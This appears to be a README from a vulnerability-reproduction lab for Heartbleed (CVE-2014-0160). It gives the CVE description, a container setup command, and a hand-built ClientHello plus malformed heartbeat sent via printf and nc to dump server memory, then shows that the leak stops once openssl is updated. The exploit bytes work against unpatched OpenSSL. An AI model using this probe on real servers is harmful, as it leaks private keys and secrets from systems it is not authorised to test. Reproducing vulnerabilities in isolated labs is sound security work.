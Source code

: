 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python cve_debian.py -n 2014-0160 -v bullseye -d heartbleed -s --port 4443
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc CONTAINER_IP_ADDRESS 4433 | hexdump -C
```
The default IP address should be 172.17.0.2 .  
We observe that a lot of data thus it is vulnerable. 

If openssl is then updated in the container : 
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.